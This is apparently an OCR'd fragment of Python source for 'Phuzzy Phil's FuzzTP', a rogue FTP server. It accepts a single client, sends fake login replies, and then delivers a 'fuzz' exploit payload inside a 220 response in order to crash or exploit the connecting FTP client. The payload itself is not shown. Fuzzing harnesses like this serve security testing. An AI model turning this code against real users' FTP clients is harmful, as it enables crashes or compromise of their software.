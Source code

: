 ```
    server.bind((host_ip, host_port)) 
```

```
    server.listen(1) 
```

```
    print("\n\n** Phuzzy Phil's FuzzTP **\nServer is up.\nListening at %s on port %d" % (host_ip, host_port))
```

```
    print("Fuzzing exploit length: %d bytes" % len(fuzz))
```

```
    client, address = server.accept() 
```

```
    print("Connection accepted from FTP client %s, remote port %d" % (address[0], address[1]))
```

```
    client.send(b"220 Connected to FuzzTP Server by Phuzzy Phil\r\n") 
```

```
    client.recv(1024) 
```

```
    client.send(b"331 OK\r\n") 
```

```
    client.recv(1024) 
```

```
    client.send(b"230 OK\r\n") 
```

```
    client.recv(1024) 
```

```
    client.send(b"220 %s\r\n" % fuzz)
```

```
    print("\n\nFuzz payload sent! Closing connection, exiting server.\n")
```

```
    server.close() 
```

```
    client.close() 
```
